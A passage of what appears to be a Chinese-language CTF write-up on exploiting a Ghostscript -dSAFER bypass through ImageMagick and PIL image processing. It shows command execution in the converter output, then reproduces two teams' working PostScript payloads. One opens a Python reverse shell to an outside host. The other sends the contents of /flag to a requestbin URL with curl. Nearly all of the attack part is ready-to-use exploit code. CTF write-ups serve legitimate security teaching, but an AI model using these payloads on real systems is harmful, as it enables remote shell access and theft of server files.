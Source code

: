 运行:

> convert shell.jpeg what.gif

结果：

```shell
qianfa@qianfa:~/goscript$ convert shell.jpeg what.gif
uid=1000(qianfa) gid=1000(qianfa) groups=1000(qianfa),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
convert: FailedToExecuteCommand `"gs" -q -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 "-sDEVICE=pngalpha" -dTextAlphaBits=4 -dGraphicsAlphaBits=4 "-r72x72" -g612x792  "-sOutputFile=/tmp/magick-115904M-6fITFX1ezd%d" "-f/tmp/magick-115904XRfng5YFMWcZ" "-f/tmp/magick-115904phWq9gVRvPQK" -c showpage' (-1) @ error/delegate.c/ExternalDelegateCommand/461.
convert: no images defined `what.gif' @ error/convert.c/ConvertImageCommand/3210.
```

在该题目中由于使用PIL,PIL会检查图片的尺寸，所以该payload无法生效。需要改造一下。

r3kapig:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 30 30

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("harold.kim",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

BambooFox:

```
%!PS-Adobe-1.0
%%Creator: PS_Write.F
%%CreationDate: 09/29/99
%%Title: region.ps
%%Document-Fonts: Times-Roman
%%BoundingBox:  0   0  1000  500
%%BeginProlog
%%EndProlog
/Palatino-Roman findfont
0.0000 0.0000 0.0000 setrgbcolor
%%Page:     1    1
/Times-Roman findfont
20 scalefont
setfont
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl --data "`cat /flag`" http://requestbin.fullcontact.com/12jsa501) currentdevice putdeviceprops
showpage
%%Trailer
%%Pages:      1
%%EOF
quit
```
